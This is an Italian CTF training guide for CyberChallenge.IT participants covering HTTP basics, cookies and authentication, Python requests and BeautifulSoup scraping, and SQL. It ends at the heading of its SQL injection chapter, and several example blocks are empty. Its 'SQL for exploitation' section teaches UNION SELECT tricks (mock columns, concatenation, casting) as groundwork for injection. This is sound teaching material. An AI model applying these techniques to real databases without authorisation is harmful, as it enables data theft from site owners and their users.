


# Introduzione

Questa guida è dedicata ai partecipanti di CyberChallenge.IT e, una volta ampliata e approfondita, ai membri dei TRX e appassionati in generale. Questa risorsa mira a offrire una panoramica sull'esfiltrazione di dati nella web exploitation.

Mentre esistono già numerosi libri e risorse online sull'argomento, questa guida mira a fornire una versione italiana chiara e accessibile, adatta alle esigenze specifiche dei partecipanti a CyberChallenge e membri TRX.

È importante sottolineare che questa guida riflette esclusivamente le mie conoscenze e opinioni personali. Non ho esperienze dirette nell'ambito della sicurezza informatica e non mi assumo responsabilità per l'utilizzo improprio delle informazioni qui fornite al di fuori del contesto di CyberChallenge.IT e più in generale del mondo delle CTF.

I lettori sono invitati a saltare i capitoli o le sezioni che ritengono già familiari o non rilevanti per le loro esigenze.


# Capitolo 0.5
## Internet
Nel World Wide Web ogni risorsa viene identificata univocamente da un [URL](https://it.wikipedia.org/wiki/Uniform_Resource_Locator) (Uniform Resource Locator).

Per risorsa intendiamo un qualsiasi insieme di dati o informazioni che abbiano senso. Immagini, paragrafi testuali, video, audio, pagine web, risultati dell'elaborazione di un programma sono tutti esempi di risorsa. Wikipedia definisce le "risorse sul Web" come "tutte le fonti di informazioni e servizi disponibili in Rete, identificate dall'URL e fisicamente presenti e accessibili su web server tramite web browser dell'host client."

Se questa definizione non è chiara, sarà utile fare un ripasso del [modello client-server](https://it.wikipedia.org/wiki/Sistema_client/server)

Illustrazione formale:


Esempio pratico:


*Nota: la porta di default - quindi il valore valido se non specificato - è l'80, il fragment è di default l'inizio pagina. Le query string, o parametri, sono generalmente facoltativi. Le userinfo, ovvero username e password, non mostrati nell'esempio, sono tipici di protocolli diversi da quelli che vediamo usualmente nel browser, come [FTP](https://it.wikipedia.org/wiki/File_Transfer_Protocol)*

### [URL-encoding](https://developer.mozilla.org/en-US/docs/Glossary/Percent-encoding)
Per evitare che nell'URL siano presenti caratteri riservati che potrebbero portare ad un'interpretazione indesiderata da parte del browser, viene usato l'URL encoding, ufficialmente percent-encoding. Se usati per un attacco è quindi utile ricordarsi di codificare gli URL in modo che nessuna parte  del ["vettore d'attacco"](https://www.akamai.com/it/glossary/what-is-attack-vector#:~:text=sfruttamento%20di%20API%20e%20applicazioni%20web)/payload che abbiamo preparato vada persa.

Prima dell'URL-encoding:


Dopo l'URL-encoding (cosa riceve il server):


Da notare come solo il testo che può essere direttamente controllato dall'utente venga URL-encodato.

Ciò che viene fatto è una conversione dal carattere riservato alla sua rappresentazione ASCII esadecimale preceduta da un %.

### [HTTP](https://it.wikipedia.org/wiki/Hypertext_Transfer_Protocol)
l'HyperText Transfer Protocol, HTTP, è un protocollo stateless, ovvero ogni richiesta è indipendente dalle richieste precedenti. Le due fasi previste sono l'HTTP request (il client fa una richiesta al server) e l'HTTP response (il server risponde).

In generale, ogni volta che il client ha bisogno di richiedere una risorsa al server, comunica utilizzando HTTP. 
Questo significa che per ogni risorsa che vorrai visualizzare, il tuo dispositivo dovrà effettuare un'HTTP request, e ricevere dal server un'HTTP response. 

Esempio di HTTP request:


Esempio di HTTP response:


In caso fosse necessario uno scambio di informazioni al di fuori del contesto degli header e delle query, queste possono essere incluse nel corpo del messaggio (body message). Nell'esempio di richiesta mostrato, apparirebbero "sotto" agli header. La struttura del body message varia a seconda della tecnologia utilizzata dallo specifico sito, ed è comunque facilmente individuabile durante l'esperienza pratica.


#### [Metodi HTTP comuni](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods):
- **GET** (ottieni la risorsa o informazioni su di essa)
- **POST** (azione/invia dati alla risorsa)
- **HEAD** (GET senza body message)
- **TRACE** (diagnostica)
- **OPTIONS** (visualizza metodi disponibili)
- **PUT** (crea nuova risorsa)
- **DELETE** (elimina risorsa specificata)
- **CONNECT** (crea un [tunnel](https://it.wikipedia.org/wiki/Protocollo_di_tunneling) in caso di [proxy](https://it.wikipedia.org/wiki/Proxy))
- **PATCH** (modifica la risorsa)

#### [Header HTTP comuni](https://blog.postman.com/what-are-http-headers/):
##### Request
- **Accept**: Definisce i [MIME type](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types) che il client accetterà dal server, in ordine di preferenza. Ad esempio, `Accept: application/json, text/html` indica che il client preferisce ricevere risposte in [JSON](https://it.wikipedia.org/wiki/JavaScript_Object_Notation), ma le accetta anche in [HTML](https://it.wikipedia.org/wiki/HTML).
- **User-Agent**: Identifica il browser e/o il client che sta effettuando la richiesta.
- **Authorization**: Usato per l'invio di credenziali, utile quando si prova ad accedere ad una risorsa protetta.
- **Cookie**: Usato per inviare al server cookie precedentemente memorizzati. Utile per personalizzare l'esperienza dell'utente e "combattere" i limiti della natura stateless del protocollo HTTP.
- **Content-Type**: Definisce il MIME type del contenuto del request body.

##### Response
- **Content-Type**: Come sopra.
- **Server**: La controparte di `User-Agent`.
- **Set-Cookie**: Comunica al client che esso dovrebbe memorizzare un cookie con un certo nome, valore, e facoltativamente scadenza, dominio, percorso e flag di sicurezza. Esempio: `Set-Cookie: score=127`. Una volta che `Set-Cookie` viene ricevuto ed accettato, il client invierà al server il cookie ad ogni richiesta eseguita.
- **Content-Length**: Specifica la grandezza in byte del response body. In caso "apparisse" dal lato del richiedente, dobbiamo fare attenzione a specificare la lunghezza giusta in caso volessimo modificare i nostri payload.

Negli esempi mostrati precedentemente potete vedere come questi header vengono utilizzati in una comunicazione reale tra un web browser e un sito web statico.

Generalmente, quando un header inizia per `X-`, è custom.
È utile notare come il funzionamento di HTTP sia solo una convenzione, ed il server può decidere di implementare qualsiasi metodo e qualsiasi header (custom headers e methods). Questi elementi sono di nostro interesse, essendo implementati direttamente dal gestore del sito e quindi più facilmente soggetti ad errori di implementazione. Inoltre, nulla impedisce al programmatore di usare una GET per modificare dati, o una POST per fornire informazioni, nonostante questo sia ovviamente sconsigliato. Lo stesso vale per gli elementi mostrati successivamente in questo capitolo.

#### [Status codes](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status):
- **1xx**: Risposte informative
- **2xx**: Successo
- **3xx**: Reindirizzamento
- **4xx**: Errore del client (tipicamente richieste sbagliate)
- **5xx**: Errore del server (errori di un programma ed eccezioni non gestite)

#### *Riassumendo*:

Possiamo pensare all'HTTP request come a una lettera che spediamo tramite posta. Nella riga della richiesta, noi come mittenti specifichiamo cosa vogliamo sia fatto e dove vogliamo sia fatto, come scrivessimo l'indirizzo e il tipo di servizio desiderato su una busta. Gli header della richiesta contengono informazioni su di noi e le nostre preferenze, simili a scrivere il nostro nome e il nostro indirizzo sul retro della busta. Se chi offre il servizio ha bisogno di un materiale o di un oggetto da utilizzare per soddisfare la nostra richiesta, possiamo includerlo nel body message, proprio come inviare un pacco insieme alla busta.

Il server, simile al destinatario della nostra lettera, riceve la richiesta, cerca di soddisfarla e ci invia una lettera di risposta. Nella riga dello stato della risposta, capiamo se tutto è andato bene o se c'è stato un problema, proprio come leggere l'indicazione di consegna sulla nostra busta postale. Negli header della risposta, otteniamo informazioni su chi ha eseguito il lavoro e come vorrebbe che ci comportassimo con il risultato. Infine, nel body message della risposta, riceviamo il prodotto richiesto, come se insieme alla busta ci venisse spedito un pacco contenente ciò che avevamo chiesto.


### [HTTP Cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
I cookie vengono spesso arricchiti da attributi, ed i principali sono:
- **Expires**: Specifica il tempo di scadenza in secondi per il cookie. Se non specificato, il cookie viene eliminato al termine della sessione (session cookie).
- **Secure**: I cookie con questa flag vengono inviati solo in richieste [HTTPS](https://it.wikipedia.org/wiki/HTTPS) (HTTP crittografato).
- **HttpOnly**: JavaScript non può accedere al cookie.
- **Domain**: Definisce il dominio per il quale il cookie è valido.
- **Path**: Stessa cosa ma col percorso.
- **Same-Site**: Specifica se il cookie può venire incluso in richieste che coinvolgono siti terzi. `SameSite=Strict` indica che il browser si rifiuterà di condividere il cookie con siti web diversi da quello che ci ha "detto" di settare il cookie. È una protezione che può scoraggiare attacchi CSRF.

Un cookie (nel browser: F12 -> Application -> Cookies):



### [HTTP Authentication](https://developer.mozilla.org/en-US/docs/Web/HTTP/Authentication)
Secondo gli standard del protocollo HTTP, la struttura della comunicazione tra un client che richiede una risorsa protetta e il server consiste nei seguenti step:
- Il client richiede la risorsa
- Il server risponde con lo status code `401 Unauthorized` (non autorizzato), specificando tramite l'header `WWW-Authenticate` il tipo di autenticazione richiesto. In questa fase possono essere inviate al client diverse informazioni, a seconda del metodo di autenticazione richiesto.
- Il client deve rispondere con l'header `Authorization` contenente le credenziali richieste.
- Il server risponde `200 OK` o `403 Forbidden` (accesso vietato).

`401 Unauthorized` = "non so chi sei", `403 Forbidden` = "non sei un utente che ha accesso alla risorsa".

#### Principali tipi di autenticazione:
- **Basic Authentication**: `username:password` vengono inviati encodati in [`base64`](https://it.wikipedia.org/wiki/Base64). L'encoding non offre nessun layer di sicurezza aggiuntivo, di conseguenza un'autenticazione `Basic` in HTTP è completamente insicura, come mandare le informazioni in chiaro.
- **Digest Authentication**: Offusca username e password usando anche altri parametri come `realm` e `nonce`
- **Bearer Authentication**: Usata soprattutto in contesti basati su [Oauth2](https://www.teranet.it/introduzione-ad-oauth-2). Di fatto, invece di fornire le credenziali al server che richiede l'autenticazione, ci autentichiamo presso un altro server del quale il server iniziale si fida. Questo è possibile perchè il server autenticante fornisce all'utente un token da usare come "cartellino d'ingresso" quando passiamo all'ultima fase del processo di autenticazione. Spesso i token sono generati come [JWT](https://en.wikipedia.org/wiki/JSON_Web_Token).

*Nota: I tipi di autenticazione potrebbero non essere chiari fin da subito, e non sono necessariamente spendibili in attacchi utili al contesto di CyberChallenge, ma l'utilizzo delle Bearer authentication è in continua crescita ed è un argomento che ritengo particolarmente importante. Ne consiglio caldamente l'approfondimento autonomo.*


### Conclusione del capitolo:
Quando difendiamo o attacchiamo un servizio, è utile ricordare che i cookies, gli header, il body content e il metodo della richiesta possono venire modificati dal client come esso vuole. Esistono strumenti (come BurpSuite) che permettono di modificare facilmente tutte le informazioni possibili che il server è in grado di ricevere. Fidarsi di ciò che viene inviato dal client significa accettare di gestire un servizio vulnerabile. Uno sviluppatore deve fare in modo di limitare per quanto possibile le funzionalità che richiedano una fiducia dell'utente. La natura stateless di HTTP costringe gli sviluppatori ad usare i cookie per l'autenticazione (immaginate di dover loggare ogni volta che cambiate reel), mettendoli in difficoltà e aprendo la possibilità a vari tipi di attacchi cross-site che vedremo più avanti.

*Challenge: Prime 6 di web security a partire da [questa](https://training.olicyber.it/challenges#challenge-41)*

<div style="page-break-after: always;"></div>

# Capitolo 1
## [Python requests](https://realpython.com/python-requests/)
#### Installazione
`pip install requests`
`from requests import *`
`pip install beautifulsoup4`
`from bs4 import BeautifulSoup`

### Metodi
Nella libreria requests, ogni metodo HTTP corrisponde a una funzione. 

Chiamando la funzione di un metodo, ad esempio `get`:
`response = get('https://api.github.com')`
ci viene restituito un oggetto `Response` che contiene molte informazioni sulla risposta che ci è stata restituita, tra cui:
- ##### Status code: `response.status_code`
Notare che `response.status_code` è un intero, mentre `response` risulta `True` se lo status code è compreso tra 200 e 400, `False` altrimenti. (Se vuoi capire come questo sia possibile, puoi dare un'occhiata al [method overloading](https://realpython.com/operator-function-overloading/#making-your-objects-truthy-or-falsey-using-bool))
- ##### Contenuto: `response.text`
In questo modo possiamo vedere cosa ci è stato restituito dal server, cosa avremmo visto se avessimo visitato lo stesso link da un browser. `response.content` fa la stessa cosa, ma restituisce bytes invece che una stringa.
- ##### Contenuto in JSON: `response.json()`
Particolarmente utile quando abbiamo a che fare con delle [API](https://www.azionadigitale.com/api-cosa-sono-e-come-funzionano/). Otterremmo lo stesso risultato usando `.text` e deserializzando il risultato con `json.loads(response)`
- ##### Headers: `response.headers`
Che restituisce un oggetto simile a un dizionario ma con key case-insensitive. Quindi se vogliamo accedere ad un header in particolare, possiamo specificarlo: `response.headers['content-type']`

### Personalizzazione della richiesta
Come visto nel capitolo precedente, ci sono diversi tipi di scambio di informazioni che permettono di personalizzare una richiesta:

##### Query string parameters
```py
response = get(
    'https://it.wikipedia.org/w/index.php',
    params={'search': 'capture+the+flag'},
)
```

##### Headers
```py
response = get(
    'https://it.wikipedia.org/w/index.php',
    params={'search': 'capture+the+flag'},
    headers={'User-Agent': 'Mozilla/5.0'},
)
```

### Altri metodi
```py
post('https://httpbin.org/post', data={'key':'value'})
put('https://httpbin.org/put', data={'key':'value'})
delete('https://httpbin.org/delete')
head('https://httpbin.org/get')
patch('https://httpbin.org/patch', data={'key':'value'})
options('https://httpbin.org/get')
```

### Sessioni
In caso fosse necessario eseguire più azione tramite una sola connessione (esempio: passiamo per diverse API che ci assegnano e controllano cookie/header), è possibile usare l'oggetto [`Session`](https://requests.readthedocs.io/projects/it/it/latest/user/advanced.html#oggetti-session).  

```py
s = Session()

s.get('http://httpbin.org/cookies/set/sessioncookie/123456789')
r = s.get("http://httpbin.org/cookies")

print(r.text)
# '{"cookies": {"sessioncookie": "123456789"}}'
```

Tra i tanti possibili casi d'uso, le sessioni possono risultare particolarmente utili nelle attacco e difesa che propongono servizi nei quali bisogna registrarsi/loggarsi per ottenere la flag. In questi casi, può risultare comodo usare le sessioni sfruttando i [`context manager`](https://realpython.com/python-with-statement/):

```py
with requests.Session() as session:
    session.auth = ('randomuser', 'randompass')

    session.post('https://api.cyberchallenge.it/pwnedwebsite/register')
    session.post('https://api.cyberchallenge.it/pwnedwebsite/login')
    response = session.get('https://api.cyberchallenge.it/pwnedwebsite/idor/flag')
```

### Cookies
Come detto, in caso fossero coinvolti dei cookie nel processo da automatizzare, è il caso di utilizzare le sessioni in modo da non dover fare alcun intervento manuale. 

In caso volessimo vedere o aggiungere dei cookie, basta sapere che essi sono salvati in un dizionario, quindi per ottenerli basterà un `session.cookies.get_dict()`

Per una visualizzazione "pulita" dei vari parametri del cookie (grazie [Bobby](https://bobbyhadz.com/blog/how-to-use-cookies-in-python-requests))

```py
import requests

response = requests.get('http://google.com', timeout=30)

# {'AEC': 'Ad49MVE4KO7sQX_pRIifPtDvL666jJcj34BmOFeETG9YU_1mu1SINQN-Q_A'}
print(response.cookies.get_dict())

result = [
    {'name': c.name, 'value': c.value, 'domain': c.domain, 'path': c.path}
    for c in response.cookies
]

# [{'name': 'AEC', 'value': 'Ad49MVGjcnQKK55wgCKVdZpw4PDgEgicIVB278lObJdf4eXaYChtDZcGLA', 'domain': '.google.com', 'path': '/'}]
print(result)
```

##### Aggiungere un cookie alla sessione
La libreria requests usa i CookieJar per gestire i cookie. Per aggiungere un cookie alla CookieJar della sessione, si può usare il metodo `update`:
```py
from requests import *
s = Session()
s.cookies.update({'username': 'Francesco Titto'})
response = s.get('http://ctf.cyberbootcamp.it:5077/')
```

In particolare, i metodi `sessione.cookie.XYZ` aiutano ad interfacciarsi con i CookieJar. Esistono molti metodi utili, ma ciò che è stato fino ad ora basta per quanto concerne lo scopo di questa guida.


#### Tips&Tricks
##### Controllo dei metodi "permessi"
Come visto nello scorso capitolo, il metodo `OPTIONS` permette di visualizzare i metodi disponibili. Per fare questo, dopo aver eseguito una richiesta `OPTIONS`, il risultato desiderato sarà restituito nell'header `Allow`: `response.headers['allow']`

##### Utilizzo dei giusti parametri
Abbiamo visto i diversi modi per mandare dei dati al server. È importante non fare confusione tra `params`, che manda parametri della query, `data`, che manda informazioni nel corpo della richiesta (request body), e `json` che fa la stessa cosa convertendo in json il dizionario che gli diamo e settando l'header `Content-Type` ad `application/json`. Notare che inserire del json nel parametro `json`, esempio: `json=json.dumps(data)` risulterà in un doppio dump (e quindi vari errori di difficile comprensione). 

##### `robots.txt` e `sitemap.xml`
Può succedere in alcune challenge blackbox di CyberChallenge (ma soprattutto OliCyber) che alcune informazioni necessarie alla risoluzione della challenge (anche source code) siano indicati nel robots.txt o nella sitemap. Controllare non vi costa niente, e vi può far risparmiare molto tempo. È invece molto più raro in altre CTF (non mi è mai successo di trovarci qualcosa)

##### Timeout
Per evitare che il programma si blocchi per una richiesta sbagliata o un problema infrastrutturale, è stato introdotto il `Timeout`: `get('https://api.github.com', timeout=1.5)`. È possibile inserire il numero di secondi (int o float) da lasciar passare prima che un errore venga triggerato. Se combinato col `Try/Except` può risultare utile per attacchi time-based (crittografia, sql ed altro).

## [DOM](https://en.wikipedia.org/wiki/Document_Object_Model)
Premendo F12 nei principali browser, vengono aperti gli strumenti per sviluppatori. La prima sezione mostrata di default è `elements`, elementi, che ci permette di esplorare interattivamente il Document Object Model (DOM).

Il DOM è una struttura multi-piattaforma e indipendente dal linguaggio, tuttavia nel nostro caso la seguente definizione è sufficiente: il DOM è un'interfaccia che tratta HTML come una struttura ad albero dove ogni nodo è un oggetto che rappresenta parte del documento.

Se non si è mai avuto a che fare con HTML e/o il concetto di DOM, il modo migliore per capire come funziona e prenderci dimestichezza è proprio visitando siti che si conoscono bene (ad esempio, un articolo su [wikipedia](https://it.wikipedia.org/wiki/Capture_the_flag_(sicurezza_informatica))) ed usando la sezione `elements` degli strumenti per sviluppatori



Passando il cursore su uno degli elementi, questo verrà evidenziato.

Nell'esempio mostrato, `h3` è il [tag](https://developer.mozilla.org/en-US/docs/Glossary/Tag) dell'[elemento](https://developer.mozilla.org/en-US/docs/Glossary/Element), `post-title` la classe. Può essere presente anche l'`id`, che identifica univocamente l'elemento. 


### [BeautifulSoup](https://realpython.com/beautiful-soup-web-scraper-python/)
BeautifulSoup è una libreria estremamente utile per il [web scraping](https://it.wikipedia.org/wiki/Web_scraping). Si utilizza insieme alla libreria `requests` per ottenere automaticamente una serie di dati di nostro interesse.

#### Creare un BeautifulSoup object e printarlo
```py
import requests
from bs4 import BeautifulSoup

URL = "https://theromanxpl0.it/"
page = requests.get(URL)

soup = BeautifulSoup(page.content, "html.parser")

print(soup.prettify())
```

#### Cercare un elemento per ID
```py
results = soup.find(id="penguin-login writeup")
```

#### Cercare elementi per tag e/o classe/testo
```py
results = soup.find_all("h3", class_="post-title")
resText = soup.find_all("h3", string="penguin")

for result in results:
    print(result.prettify(), end="\n")

for result in resText:
    print(result.prettify(), end="\n")
```

#### Estrarre il testo da un elemento
```py
print(result.text, end="\n")
```

Per la struttura del DOM, esso ha una gerarchia, ovvero i contenuti sono uno dentro l'altro (quelli che vediamo sono tutti figli dell'elemento con tag `HTML`). 

#### Accedere al padre di un elemento
```py
result = soup.find("h3", class_="post-title")
result = result.parent
print(result.text, end="\n")
```

#### Estrarre i link
Gli elementi `a`, approssimando, rappresentano un link, che si trova come attributo `href`. 

```py
import requests
from bs4 import BeautifulSoup

URL = "https://theromanxpl0.it/"
page = requests.get(URL)

soup = BeautifulSoup(page.content, "html.parser")

links = soup.find_all("a")
for link in links:
    link_url = link["href"]
    print(f"writeup link: {link_url}\n")
```

*Esercizi: prime 16 a partire da questa: https://ctf.cyberchallenge.it/challenges#challenge-255*
*In caso non si avesse accesso alla piattaforma CyberChallenge, c'è un'alternativa pubblica qui: https://training.olicyber.it/challenges#challenge-340*

*L'introduzione è molto stringata e più orientata agli esempi in quanto l'argomento può diventare molto grande a seconda di quanto lo si vuole approfondire, e non mi aspetto che dobbiate usare questa libreria molto spesso, ancor meno se si tratta di un utilizzo non superficiale.*

# Capitolo 1.5
## [Database relazionali](https://www.oracle.com/it/database/what-is-a-relational-database/) e [SQL](https://it.wikipedia.org/wiki/Structured_Query_Language)
I Relational Database Management System (DBMS) e lo Structured Query Language sono argomenti vastissimi ai quali vengono dedicati interi esami. Tuttavia, per ciò che ci serve, possiamo ottenere risultati soddisfacenti anche solo prendendo dimestichezza con pochi concetti e istruzioni.

### Modello relazionale
Nel modello relazionale, le informazioni vengono strutturate in tabelle, righe e colonne. 

Un database relazionale è quindi strutturato in modo molto simile ad un foglio di lavoro (esempio: Excel). Ogni foglio di lavoro è una tabella nella quale vengono archiviate informazioni. Le colonne rappresentano i vari attributi, e le righe i "record", le entità, in un certo senso sono i soggetti dei dati raccolti.

Esempio di tabella:


Quindi i record di una tabella condividono la stessa "struttura": per ognuno di essi abbiamo lo stesso tipo di informazione.

Per ogni tabella è definita una *chiave primaria*, ovvero un dato che identifica univocamente ogni riga o record.
La chiave primaria può essere definita da più colonne, o da un'informazione utile sul record, ma per semplicità si tende a definirla su una sola colonna, spesso creata per questo unico scopo, chiamata ID (o simili). Per semplicità potete ricordare la chiave primaria come identificatore univoco. È tuttavia utile ricordare l'eventualità che la chiave primaria possa essere multicolonna o (più plausibile) che essa sia un dato come un codice fiscale o numero di matricola.

Inoltre, ogni riga può essere utilizzata per creare una relazione tra diverse tabelle utilizzando una *chiave esterna*, ovvero la chiave primaria di un'altra tabella.

Esempio riassuntivo:


### DBMS
Una generica base di dati, o database, è una collezione di dati che viene gestita e organizzata dal DBMS (DataBase Management System). Gli RDBMS gestiscono database relazionali.

L'utente ha in mente uno schema logico di come dovrebbe essere un database (guarda gli esempi di prima), ma i record devono essere memorizzati fisicamente in qualche modo sotto forma di bit. Il DBMS si occupa di gestire i dati in sè, controllando gli accessi concorrenti, assicurando sicurezza e integrità dei dati e permettendo la loro migrazione, tutto questo permettendo all'utente di accedere ai dati attraverso uno schema concettuale piuttosto che ai dati presenti fisicamente in memoria.

tldr: permette l'astrazione assicurando al contempo rapidità di accesso ai dati e la loro integrità.


### SQL
SQL è il linguaggio standard per manipolare i database.

Andiamo per esempi. Prima di tutto, vediamo tutti i dati sui quali lavoreremo in questo tutorial:

#### SELECT/FROM

`SELECT * FROM players;`

| ID | Username | Team |
| ----------- | ----------- | ----------- |
| 1 | Loldemort | 4 |
| 2 | Titto | 2 |
| 3 | marco | 3 |
| 4 | C0mm4nd_ | 1 |

`SELECT * FROM Teams;`

| ID | Name |
| ----------- | ----------- |
| 1 | MadrHacks |
| 2 | TRX |
| 3 | ZenHack |
| 4 | TeamItaly |

Vediamo i team. L'ID non ci serve a molto... Prendiamo solo i nomi:

`SELECT Name FROM Teams;`

| Name |
| ----------- |
| MadrHacks |
| TRX |
| ZenHack |
| TeamItaly |

E se volessimo vedere solamente il nome della seconda squadra inserita nel database?

#### WHERE

`SELECT Name FROM Teams WHERE ID = 2;`

| Name |
| ----------- |
| TRX |

La struttura della `SELECT` è quindi: `SELECT [colonna/e] FROM [tabella] WHERE [condizione]`, e non è necessario selezionare una colonna per usarla come condizione, come abbiamo visto in quest'ultimo esempio

Ora invece selezioniamo tutti i team tranne i primi due:

`SELECT * FROM Teams WHERE ID > 2;`
`SELECT * FROM Teams WHERE ID >= 3;`

| ID | Name |
| ----------- | ----------- |
| 3 | ZenHack |
| 4 | TeamItaly |

Però ordiniamoli in ordine alfabetico:

`SELECT * FROM Teams WHERE ID >= 3 ORDER BY Name;`

| ID | Name |
| ----------- | ----------- |
| 4 | TeamItaly |
| 3 | ZenHack |

Ma la classifica era più bella prima...

#### ORDER BY

`SELECT * FROM Teams WHERE ID >= 3 ORDER BY Name DESC;`

| ID | Name |
| ----------- | ----------- |
| 3 | ZenHack |
| 4 | TeamItaly |

Sintassi completa: ```SELECT column[s]
FROM table[s]
WHERE condition[s]
ORDER BY column[s] [asc/desc];```

#### Condizioni multiple

Se inseriamo più colonne nell'ORDER BY, avrà importanza l'ordine nel quale le elenchiamo. Se per esempio volessimo selezionare dei giocatori in base al punteggio, e in caso di parità dare priorità al più giovane, potremmo usare questa *query*: `SELECT name, score FROM players ORDER BY score DESC, age ASC;`. Si possono inserire più condizioni in un `WHERE` usando gli operatori `OR` e `AND`.


### SQL for exploitation
Ci sono poi altre istruzioni e operatori che tornano particolarmente utili quando si eseguono SQL injection, un tipo di attacco che vedremo nel dettaglio nel prossimo capitolo.

#### LIKE e wildcards

`LIKE` ci permette di cercare una stringa che "assomiglia" a quella che viene fornita. Questo è possibile grazie alle *wildcards*. Le due wildcards più importanti per i nostri scopi sono l'underscore `_`, che rappresenta un solo carattere, e il percento `%`, che rappresenta nessuno o più caratteri. Degli esempi sulla tabella `Players`:

`SELECT * FROM Players WHERE Username LIKE "_arco"`

| ID | Username | Team |
| ----------- | ----------- | ----------- |
| 3 | marco | 3 |

`SELECT * FROM Players WHERE Username LIKE "%o"`

| ID | Username | Team |
| ----------- | ----------- | ----------- |
| 2 | Titto | 2 |
| 3 | marco | 3 |

`SELECT * FROM Players WHERE Username LIKE "%o%"`

| ID | Username | Team |
| ----------- | ----------- | ----------- |
| 1 | Loldemort | 4 |
| 2 | Titto | 2 |
| 3 | marco | 3 |

`SELECT * FROM Players WHERE Username LIKE "%Titto"`

| ID | Username | Team |
| ----------- | ----------- | ----------- |
| 2 | Titto | 2 |

#### UNION SELECT

Vi ricordate della `foreign key` e della `primary key`?


La `JOIN` è un'istruzione che ci permette di eseguire manipolazioni utili usando queste due informazioni. A noi per il momento interessa solamente ottenere informazioni da due tabelle diverse, indipendentemente dalla presenza o meno di un legame tra di esse, ed in questo ci aiuta la `UNION`. Per usarla, basta scrivere due `SELECT` relative a due tabelle diverse, e metterci una `UNION` in mezzo:


`SELECT Username FROM Players WHERE Username LIKE "L%" UNION SELECT Name FROM Teams WHERE ID = 2`

| Username |
| ----------- |
| Loldemort |
| TRX |

Quando eseguiamo una `UNION SELECT`, dobbiamo tenere a mente che:
- Ogni select deve avere lo stesso numero di colonne. `SELECT ID, Username FROM Players UNION SELECT Name FROM Teams` non è quindi valida.
- Le colonne devono riguardare tipi di dato "simili". Ad esempio, stringhe e varchar, pur non essendo lo stesso tipo, possono far parte della stessa colonna IN UNA QUERY `UNION`! `SELECT ID FROM Players UNION SELECT Name FROM Teams` restituisce un errore.
- Le colonne generate da una `UNION SELECT` avranno lo stesso nome delle colonne selezionate dalla prima tabella nominata. Questo non rappresenta di per sè un problema, ma può generare confusione quando ci vengono restituiti i risultati della query (nell'esempio di prima, i TRX appaiono nella colonna Username).

In quanto futuri xHackerZx, non possiamo scoraggiarci alle prime difficoltà. Ci sono delle scorciatoie che possiamo utilizzare, forzando delle funzionalità particolari messe a disposizione dalle query SQL.

#### Mock columns
**"Ogni `SELECT` deve avere lo stesso numero di colonne"**
In caso l'applicazione con la quale stiamo interagendo ci proponesse una query con troppe colonne (vogliamo sapere solo i nomi dei team tramite una union, ma nella tabella players viene selezionato anche l'ID), possiamo usare le mock columns.

Queste consistono nell'inserire dei valori fissi al posto del nome della colonna in modo che dalla query venga selezionata una colonna finta:

`SELECT ID, Username FROM Players UNION SELECT 1337, Name FROM Teams`

| ID | Username |
| ----------- | ----------- |
| 1 | Loldemort |
| 2 | Titto |
| 1337 | TeamItaly |
| 1337 | TRX |

etc...

Possiamo anche usare `"carattere"` se vogliamo creare una finta colonna di tipo `varchar`. 

#### Concatenazione

Se invece avessimo a disposizione troppe poche colonne, possiamo sfruttare la concatenazione:

`SELECT Name FROM Teams UNION SELECT CONCAT(Username," ",Fullname) FROM Players`

Il metodo di concatenazione varia enormemente tra un DBMS e l'altro, quindi sarà necessario fare una nuova ricerca sulla concatenazione ogni qualvolta troveremo un nuovo DBMS.

Nel nostro caso però nella tabella Players non è presente il `Fullname`, oltre l'username ci sono solo ID e l'ID della squadra del giocatore come foreign key. Non avremmo potuto concatenare queste informazioni con `Username`, visto che queste altre sono interi e non varchar. In casi come questi, la scorciatoia presente nel prossimo paragrafo torna particolarmente utile

#### CASTing
**"Le colonne devono riguardare tipi di dato simili"**
In questo caso possiamo fare affidamento al CASTing, che ci permette di trasformare i dati da un tipo all'altro quando possibile. Ad esempio, la query:

`SELECT Username FROM Players UNION SELECT CAST(ID as varchar) FROM Teams` è valida e restituisce

| Username |
| ----------- |
| Loldemort |
| Titto |
| "1" |
| "2" |

Anche il CASTing, come la concatenazione, può variare molto tra i vari DBMS. In generale questo è vero per quasi tutte le istruzioni che vanno oltre alla soddisfazione delle esigenze più che basilari del programmatore, come semplici `SELECT`. Per questo è più utile imparare a cercare le informazioni necessarie su internet che imparare a memoria la sintassi dello standard SQL.

#### AS
**"Le colonne generate da una `UNION SELECT` avranno lo stesso nome delle colonne selezionate dalla prima tabella nominata."**
Come già detto, questo non rappresenta per noi un problema. Se lo si vuole risolvere, basta usare la keyword `AS` sulle prime colonne selezionate:

`SELECT Username FROM Players AS "UserAndTeamNames" UNION SELECT Name FROM Teams`

| UserAndTeamNames |
| ----------- |
| Loldemort |
| Titto |
| TRX |
| TeamItaly |

etc...

Come per la `SELECT`, se si devono rinominare più colonne, basta dividere i vari nomi con una virgola.

*Pratica: https://sqlbolt.com/*

<div style="page-break-after: always;"></div>

# Capitolo 2

#### patching, remediation, mitigation, blackbox, whitebox
Con il termine "patch" si indicano le modifiche che si effettuano sul codice di un programma per mitigare o rimuovere una vulnerabilità.
Remediation = rimozione di una vulnerabilità.
Mitigation = riduzione dell'impatto di una vulnerabilità, o comunque aumento della difficoltà nello sferrare un attacco. Sono frequenti nelle [attacco e difesa](https://2022.faustctf.net/information/attackdefense-for-beginners/), competizioni nelle quali il tempo è una risorsa particolarmente preziosa.

I test *blackbox* vengono eseguiti senza avere a disposizione il codice, al contrario dei test *whitebox*.

## SQL injection
